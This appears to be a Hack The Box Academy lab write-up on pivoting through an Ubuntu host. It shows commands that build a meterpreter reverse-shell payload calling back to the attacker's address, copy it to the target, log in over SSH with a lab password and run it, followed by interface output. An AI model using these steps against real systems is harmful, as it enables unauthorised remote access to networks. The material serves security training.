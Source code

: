 
## Questions

1. What two IP addresses can be discovered when attempting a ping sweep from the Ubuntu pivot host? (Format: x.x.x.x,x.x.x.x)
	```shell
	Create msfvenom payload:
	> msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.10.14.191 -f elf -o backupjob LPORT=8080
	
	Transfer payload to target and set up multi/handler:
	> scp backupjob ubuntu@10.129.211.170:/home/ubuntu
	
	msf> use multi/handler
	...
	...
	
	Connect to target with SSH and upload meterpreter payload:
	> ssh ubuntu@10.129.211.170
	Password: HTB_@cademy_stdnt!
	
	ssh> ./backupjob
	
	 We get the meterpreter now lets use the ping sweep module:
	 meterpreter > ifconfig

Interface  1
============
Name         : lo
Hardware MAC : 00:00:00:00:00:00
MTU          : 65536
Flags        : UP,LOOPBACK
IPv4 Address : 127.0.0.1
IPv4 Netmask : 255.0.0.0
IPv6 Address : ::1
IPv6 Netmask : ffff:ffff:ffff:ffff:ffff:ffff::


Interface  2
============
Name         : ens192
Hardware MAC : 00:50:56:b0:aa:84
MTU          : 1500
Flags        : UP,BROADCAST,MULTICAST
IPv4 Address : 10.129.211.170
IPv4 Netmask : 255.255.0.0
IPv6 Address : dead:beef::250:56ff:feb0:aa84
IPv6 Netmask : ffff:ffff:ffff:ffff::
IPv6 Address : fe80::250:56ff:feb0:aa84
IPv6 Netmask : ffff:ffff:ffff:ffff::


Interface  3
============
Name         : ens224
Hardware MAC : 00:50:56:b0:6f:ca
MTU          : 1500
Flags        : UP,BROADCAST,MULTICAST
IPv4 Address : 172.16.5.129
IPv4 Netmask : 255.255.254.0
IPv6 Address : fe80::250:56ff:feb0:6fca
IPv6 Netmask : ffff:ffff:ffff:ffff::
